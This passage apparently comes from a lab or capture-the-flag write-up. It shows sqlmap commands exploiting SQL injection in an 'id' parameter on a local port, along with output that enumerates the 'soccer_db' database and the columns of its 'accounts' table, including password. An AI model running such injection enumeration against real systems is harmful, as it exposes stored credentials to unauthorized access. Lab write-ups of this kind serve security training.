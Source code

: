 ![image](./assets/img/sqliServerExploit.png)


``` bash
❯ sqlmap -u "http://127.0.0.1:8081/?id=1" --batch -D soccer_db -tables
```

``` bash
[20:20:54] [INFO] retrieved: 
[20:21:05] [INFO] adjusting time delay to 2 seconds due to good response times
accounts
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
´´´
``` bash
❯ sqlmap -u "http://127.0.0.1:8081/?id=1" --batch -D soccer_db -T accounts -columns
```

``` bash
[20:28:54] [INFO] retrieved: 
[20:29:05] [INFO] adjusting time delay to 2 seconds due to good response times
email
[20:29:41] [INFO] retrieved: varchar(40)
[20:31:25] [INFO] retrieved: id
[20:31:44] [INFO] retrieved: int
[20:32:16] [INFO] retrieved: password
[20:33:34] [INFO] retrieved: varchar(40)
[20:35:16] [INFO] retrieved: username
[20:36:24] [INFO] retrieved: varchar(40)
Database: soccer_db
Table: accounts
[4 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| email    | varchar(40) |
| id       | int         |
| password | varchar(40) |
| username | varchar(40) |
+----------+-------------+
```